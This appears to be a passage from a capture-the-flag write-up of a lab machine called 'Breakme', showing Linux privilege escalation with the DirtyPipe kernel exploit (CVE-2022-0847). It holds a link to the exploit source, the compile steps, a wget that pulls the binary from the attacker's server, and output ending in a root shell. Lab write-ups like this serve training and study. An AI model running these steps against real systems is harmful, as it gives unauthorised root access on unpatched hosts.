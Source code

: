 ```bash

www-data@Breakme:/home/john$ gcc /tmp/exploit-2.c -o /tmp/dirtypipez
gcc /tmp/exploit-2.c -o /tmp/dirtypipez
bash: gcc: command not found
www-data@Breakme:/home/john$ gcc /tmp/exploit-2.c -o /tmp/dirtypipe
gcc /tmp/exploit-2.c -o /tmp/dirtypipe
bash: gcc: command not found

```

Given we know that DirtyPipe is possible

```bash
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c
```

Locally I looked to see if DirtyPipe was installed locally but it was not so I looked online and grabbed the source code for `exploit-2.c`: 


```bash
root@ip-10-10-146-120:~# locate dirtypipe
/opt/metasploit-framework/embedded/framework/documentation/modules/exploit/linux/local/cve_2022_0847_dirtypipe.md
/opt/metasploit-framework/embedded/framework/modules/exploits/linux/local/cve_2022_0847_dirtypipe.rb
```


Compiled as so: 

```bash
root@ip-10-10-146-120:~# nano exploit-2.c
root@ip-10-10-146-120:~# gcc -o dirtypipe exploit-2.c
root@ip-10-10-146-120:~# 
```

I got root and found the 1st flag.

```bash
www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/dirtypipe -O /tmp/dirtypipe
<tp://10.10.146.120:8000/dirtypipe -O /tmp/dirtypipe
--2024-09-21 10:29:08--  http://10.10.146.120:8000/dirtypipe
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13736 (13K) [application/octet-stream]
Saving to: \u2018/tmp/dirtypipe\u2019

/tmp/dirtypipe      100%[===================>]  13.41K  --.-KB/s    in 0s      

2024-09-21 10:29:08 (256 MB/s) - \u2018/tmp/dirtypipe\u2019 saved [13736/13736]

www-data@Breakme:/home/john$ chmod +x /tmp/dirtypipe
chmod +x /tmp/dirtypipe
www-data@Breakme:/home/john$ /tmp/dirtypipe
/tmp/dirtypipe
Usage: /tmp/dirtypipe SUID
www-data@Breakme:/home/john$ /tmp/dirtypipe /usr/bin/passwd
/tmp/dirtypipe /usr/bin/passwd
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# ls
```